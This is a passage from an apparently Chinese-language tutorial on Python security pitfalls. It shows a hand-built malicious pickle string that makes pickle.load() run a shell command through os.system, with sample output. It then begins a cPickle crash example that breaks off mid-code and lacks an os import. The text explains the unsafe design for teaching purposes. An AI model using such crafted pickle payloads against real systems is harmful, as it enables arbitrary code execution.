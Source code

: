 这个问题在最新的Python 2.7.x版本中已经解决，而且避免使用像"**if 0:**"，"**if False:**"，"**while 0:**"，"**while False:**"之类的结构。

0x04 Files —> sys, os, io, pickle, cpickl
=====

pickle
------

```
import pickle   
import io   
badstring = "cos\nsystem\n(S'ls -la /'\ntR."    
badfile = "./pickle.sec"    
with io.open(badfile, 'wb') as w:   
    w.write(badstring)  
obj = pickle.load(open(badfile))    
print "== Object =="    
print repr(obj)

```

这里构造恶意序列化字符串，以二进制的形式写入文件中，使用`pickle.load()`函数加载进行反序列化，还原出原始python对象，从而使用os的`system()`函数来执行命令"`ls -la /`"。由于`pickle`这样**不**安全的设计，就可以借此来**执行命令**了。代码输出结果如下：

*   Linux
    
    ```
    total 104
    drwxr-xr-x  23 root root  4096 Oct 20 11:19 .
    drwxr-xr-x  23 root root  4096 Oct 20 11:19 ..
    drwxr-xr-x   2 root root  4096 Oct  4 00:05 bin
    drwxr-xr-x   4 root root  4096 Oct  4 00:07 boot
    ...
    
    ```
*   Mac OS X
    
    ```
    total 16492 
    drwxr-xr-x    31 root wheel     1122 12 Oct 18:58 . 
    drwxr-xr-x    31 root wheel     1122 12 Oct 18:58 ..    
    drwxrwxr-x+  122 root wheel     4148 10 Oct 15:19 Applications
    drwxr-xr-x+   68 root wheel     2312  3 Sep 10:47 Library
    ...
    
    ```

pickle / cPickle
----------------

```
import cPickle  
import traceback    
import sys  
# bignum = int((2**31)-1) # 2147483647 -> OK    
bignum = int(2**31) # 2147483648 -> Max 32bit -> Crash  
random_string = os.urandom(bignum)  
print ("STRING-LENGTH-1=%r") % (len(random_string)) 
fout = open('test.pickle', 'wb')    
try:    
    cPickle.dump(random_string, fout)   
except Exception as e:  
    print "###### ERROR-WRITE ######"   
    print sys.exc_info()[0] 
    raise   
fout.close()    
fin = open('test.pickle', 'rb') 
try:    
```